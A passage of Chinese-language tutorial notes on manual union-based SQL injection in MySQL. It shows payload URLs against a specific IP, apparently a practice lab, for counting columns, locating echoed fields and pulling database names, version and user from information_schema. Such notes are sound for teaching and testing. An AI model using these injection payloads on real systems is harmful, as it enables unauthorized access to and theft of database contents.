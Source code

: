   ```
2. 获取数据信息

    1. 判断注入点字段数

        ```sql
        http://1.14.28.17:46649/string.php?id=1' order by 1%23
        http://1.14.28.17:46649/string.php?id=1' order by 4%23
        http://1.14.28.17:58551/string.php?id=1' group by 3%23
        ```
    2. 判断注入点回显位置

        关于     <span data-type="text" style="background-color: var(--b3-font-background9);">select 1,2,3</span>    的理解。

        1. 不管你select语句后的字段名是什么，他都会原封不动的回显出来。

            ![image](assets/image-20240822093029-jfzd8pc.png)
        2. 在返回结果中，总是返回一行数据。
        3. 字段名和返回的这一行数据是对应相等的，他们都等于你输入的select语句后的字段名
        4. 返回的那一行数据的列数，等于你输入的select语句后的字段名的个数

        ```sql
        http://1.14.28.17:46649/string.php?id=1' union select 1,2,3%23
        http://1.14.28.17:46649/string.php?id=0' union select 1,2,3%23
        ```
    3. 获取数据库信息

        * 获取【数据库版本、数据库类型】

          `database() ` 当前数据库名

          `version()`  数据库版本

          `user() ` 连接用户

          mysql >5.0 information_schemata库中/SCHEMATA
        * 获取【数据库名】

          limit 0,1   <span data-type="text" style="background-color: var(--b3-font-background8);">控制结果返回行数</span> 第一个参数是从0开始，代表从第一个结果开始。第二参数为行数，从1开始，代表返回一行。

          ![image](assets/image-20240819205538-v2iyq3y.png)

          ```sql
          http://1.14.28.17:15460/string.php?id=0' union select 1,schema_name,user() from information_schema.schemata limit 4,1#
          ```

          `order by`  <span data-type="text" style="background-color: var(--b3-font-background8);">排序</span> `order by id`   用id字段进行排序 asc  desc

          `group by `  <span data-type="text" style="background-color: var(--b3-font-background9);">分组排序</span> `select username,count(id) from users group by id;`

          `concat()`  <span data-type="text" style="background-color: var(--b3-font-background8);">拼接字符串</span>：`select concat('a','b','c'); ==> 'abc'`

          `concat_ws()` <span data-type="text" style="background-color: var(--b3-font-background8);"> 指定字符拼接</span>:  ` select concat_ws('@','a','b','c'); ==> 'a@b@c'`

          `group_concat ()` 将查询的多行结果拼接在一行进行显示:   ` select group_concat(id) from users;`

          ![image](assets/image-20240822102331-6sh8036.png)
  ```